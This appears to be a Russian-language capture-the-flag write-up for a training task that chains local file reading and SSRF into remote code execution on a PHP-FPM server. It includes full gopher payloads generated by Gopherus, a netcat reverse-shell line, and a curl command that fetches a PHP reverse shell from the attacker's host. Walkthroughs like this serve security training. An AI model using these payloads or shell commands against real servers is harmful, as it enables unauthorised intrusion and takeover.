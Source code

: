 ```yaml
---
attack: ssrf
---
```

web-3-2 Удаленное выполнение кода (RCE) на узле utils.edu.stf
 
- [[#Scout|Scout]]
- [[#extra scout 2|extra scout 2]]
- [[#Attack|Attack]]
- [[#Attack 2 from Aloha51|Attack 2 from Aloha51]]


 

#### Scout 

 Разведку начнём с фаззинга [link=seclists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
```
ffuf -u http://10.124.1.237/convert.php?url=file://FUZZ -w ~/wordlists/seclists/Fuzzing/LFI/LFI-linux-and-windows_by-1N3@CrowdShield.txt  -e .php,.html,.txt,.zip,.gz,.tar,.dat,.log,.tar.gz,.sql,.rar,.swp,.bak,.asp,.aspx,.js,.img,.png,.jpeg -fs 1018
```
Ловим следующий ответ от сервера  и идём его смотреть уже в браузере 
```
/etc/nginx/sites-available/default [Status: 200, Size: 16184, Words: 393, Lines: 227, Duration: 116ms]
```
Из интересного можно выписать  
fastcgi_pass 127.0.0.1:9000
![[Pasted image 20240926185747.png]]
Далее гуглим, потом еще гуглим , потом яндексим, потом duck-актим и потом еще раз яндексим и находим следующую ссылку (именно в этой последовательности )
и находим :
https://hacktricks.boitatech.com.br/pentesting-web/ssrf-server-side-request-forgery

![[Pasted image 20240926230704.png]]

или вот эту 
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/disable_functions-bypass-php-fpm-fastcgi
на последней можем найти и инструмент для тестирования https://github.com/tarunkant/Gopherus

По этим ссылкам можем удостовериться что скорее всего у нас будет уязвимость с gopher 
#### extra scout 2
Комментарий от автора: Данный метод не особо надёжен, и работал не совсем так как мы планировалось, но решили его указать так как через него могли возникнуть подозрения на порт 9000. И через гугл можно было выйти на нужный вид атак (gopher and port 9000). 

Находим вот эту статью
https://readmedium.com/just-gopher-it-escalating-a-blind-ssrf-to-rce-for-15k-f5329a974530

и сделаем наш перебор по портам
![[Pasted image 20240926231931.png]]

![[Pasted image 20240926231941.png]]
При переборе можем увидеть что появляется задержка на порту 9000 и выше

![[Pasted image 20240926232010.png]]

#### Attack

Примечание: говорят что можно было и вот так подключить revshell `nc -c bash 10.127.IP.IP Port`  
Но если не получилось снизу описано как можно по другому



 Gopher, конкурент WWW из 90-х, который пока не стоит списывать со счетов https://habr.com/ru/articles/581692/
gopher://<хост>:<порт>/<путь-к-файлу>

Как было сказано ранее, находим следующий инструмент на hacktricks
[https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus "https://github.com/tarunkant/Gopherus") 

в качестве revshell использовалось = [monkey revshell php](https://github.com/pentestmonkey/php-reverse-shell)
(Не забудьте поменять на свой Ip and port)
В качестве первого параметра в эксплоите написано указывать любой файл желательно php , поэтому мы решили указать сам  convert.php и путь к нему (почему именно этот файл? читаем документацию  )

```
 git clone https://github.com/tarunkant/Gopherus

──(kali㉿kali)-[~/Downloads/Gopherus]
└─$ gopherus --exploit fastcgi
 
Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /var/www/html/convert.php                                                                                                                
Terminal command to run:  ls

Your gopher link is ready to do SSRF:                                                                                                                                                        
 gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%06%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%19SCRIPT_FILENAME/var/www/html/convert.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27ls%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------

```
Далее  Логично будет скачать revershell php  

```
┌──(kali㉿kali)-[~/Downloads/Gopherus]
└─$ gopherus --exploit fastcgi                                

                                                                                                                                                                                             
  ________              .__                                                                                                                                                                  
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                                                   
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                                                   
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                                                    
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                                                   
        \/       |__|        \/     \/                 \/                                                                                                                                    
                                                                                                                                                                                             
                author: $_SpyD3r_$                                                                                                                                                           
                                                                                                                                                                                             
Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /var/www/html/convert.php                                                                                                                
Terminal command to run:  curl -o /tmp/shell.php http://10.127.244.IP:Port/shell.php ; ls /tmp

Your gopher link is ready to do SSRF:                                                                                                                                                        
                                                                                                                                                                                             
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%07%07%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH120%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%19SCRIPT_FILENAME/var/www/html/convert.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00x%04%00%3C%3Fphp%20system%28%27curl%20-o%20/tmp/shell.php%20http%3A//10.127.244.IP%3APORT/shell.php%20%3B%20ls%20/tmp%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------

```
Next step Запуск нашего скрипта

{Честно не помню но мне кажется вы столкнётесь с проблемой что он не запуститься, для решения этой проблемы я выполнил дополнительную команду для добавления прав нашему скрипту, что то вроде chmod +x /var/www/html/* или т.п верю что вы справитесь ☜(ﾟヮﾟ☜) }
```
┌──(kali㉿kali)-[~/Downloads/Gopherus]
└─$ gopherus --exploit fastcgi

                                                                                                                                                                                             
  ________              .__                                                                                                                                                                  
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                                                   
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                                                   
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                                                    
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                                                   
        \/       |__|        \/     \/                 \/                                                                                                                                    
                                                                                                                                                                                             
                author: $_SpyD3r_$                                                                                                                                                           
                                                                                                                                                                                             
Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /var/www/html/convert.php                                                                                                                
Terminal command to run:  php /tmp/shell.php

Your gopher link is ready to do SSRF:                                                                                                                                                        
                                                                                                                                                                                             
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%06%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH70%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%19SCRIPT_FILENAME/var/www/html/convert.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00F%04%00%3C%3Fphp%20system%28%27php%20/tmp/shell.php%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------

```
Ну и далее сидим довольные 

#### Attack 2 from Aloha51
2 Cпособ эксплуатации уязвимости

обратите внимание что заменяется метода на PUT

![[Pasted image 20240926233436.png]]

![[Pasted image 20240926233442.png]]

![[Pasted image 20240926233453.png]]

и после запускаем любым удобным для вас способом (мб нужно будет еще докинуть прав ` chmod +x /var/www/html/*` )

